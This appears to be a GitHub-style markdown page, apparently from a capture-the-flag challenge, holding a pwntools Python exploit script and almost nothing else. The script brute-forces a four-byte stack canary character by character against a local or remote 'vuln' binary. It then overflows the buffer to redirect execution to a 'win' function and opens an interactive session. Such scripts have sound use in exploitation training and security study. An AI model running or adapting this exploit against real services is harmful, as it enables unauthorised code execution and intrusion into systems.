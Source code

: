 ```python
```
<br />

> [!NOTE]
> tqdm_ver
>```python
>from pwn import *
>from tqdm import tqdm
>from string import printable
>
>def conn():
>    if len(sys.argv) == 3:
>        host, port = sys.argv[1], int(sys.argv[2])
>        p = remote(host, port)
>    else:
>        p = e.process()
>    return p
>
>def send(proc, value):
>    proc.sendafter(b">", b"100\n")
>    proc.sendafter(b">", value)
>
>def get_cnry():
>    pbar = tqdm(total=len(printable)*4, desc="[+] Finding Canary", ascii=" =", ncols=80)
>
>    cnry = b""
>    for i in range(4): 
>        for idx, c in enumerate(printable):
>            with context.quiet:
>                p = conn()
>
>                send(p, flat({0x40:cnry}, c.encode()))
>
>                pbar.update(1)
>    
>                if b"Ok..." in p.recvall():
>                    cnry += c.encode()
>                    pbar.update(len(printable)-idx-1)
>                    break
>
>    tqdm.write(f"[+] Found Canary: {cnry}")
>    return cnry
>
>e = ELF("./vuln", checksec=False)
>p = conn()
>
>cnry = get_cnry()
>send(p, flat({0x40:cnry}, {0x10:e.sym["win"]}))
>p.interactive()
>```
<br />

